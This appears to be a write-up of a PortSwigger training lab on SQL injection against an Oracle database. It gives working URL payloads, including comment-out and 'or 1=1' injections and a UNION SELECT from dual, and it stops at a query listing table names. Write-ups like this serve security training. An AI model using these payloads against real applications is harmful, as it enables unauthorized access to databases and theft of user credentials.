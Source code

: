 
# SQL injection attack, listing the database contents on Oracle

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

Hint: On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called dual which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual


---------------------------------------------

References: 

- https://portswigger.net/web-security/sql-injection/examining-the-database

- https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------


We see there are 2 values displayed in the table, the description and the content of the post:


<img width="1332" height="865" alt="1" src="https://github.com/user-attachments/assets/ed712b73-8c5d-4e28-b91f-7f3f98ed5225" />


We find these payload are valid to display the 4 posts in Gifts and the second all the items:

```
/filter?category=Pets'--
/filter?category=Pets'+or+1=1--
```


<img width="1515" height="792" alt="2" src="https://github.com/user-attachments/assets/a1996cf9-f1f9-4983-95a8-b2162104ebd1" />


Also, that there are 2 columns returned by the query and we can do a UNION attack with the payload:

```
/filter?category=Pets'+union+all+select+NULL,NULL+from+dual--
```


List the table names with

```
SELECT table_name from all_tables
```
